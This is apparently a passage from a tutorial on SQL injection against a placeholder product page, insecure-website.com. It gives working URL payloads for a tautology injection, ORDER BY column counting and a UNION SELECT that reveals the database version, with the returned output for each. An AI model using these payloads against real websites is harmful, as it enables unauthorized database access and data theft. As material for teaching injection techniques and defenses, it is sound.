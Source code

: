 To start we could find the SQLi like last time with 
```
https://insecure-website.com/products.php?gifts=xyz'OR+1=1+--
```

This would return the 3 results of the table.  
```
The Flowers costs 5.99
The Chocolates costs 2.99
The Card costs 1.99
```


The fact that information is displayed can be used to enumerate the underlying Database.

Some basic enumeration that should be done:
 - Injection Columns
 - Database Version
 - Users
 - Databases
 - Tables in Databases
 - Columns in Tables
 - Data in Columns

### Injection Columns

First find the amount of Columns that can be used during the injection.

```
https://insecure-website.com/products.php?gifts=xyz'ORDER+BY+2+--
```

Returns
```
The  costs 
```

Anything above 2 will cause the error page to display because this table is using 2 columns as described in the Products_tb

```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+'injection',NULL+--
```

Returns
```
The injection costs 
```

If we try to inject into the price field we will get an error because our query does not have an input for the price it only pulls price out of the table to match the gift.

### Database Version

To find the Database version we would use @@version 
```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+@@version,NULL+--
```
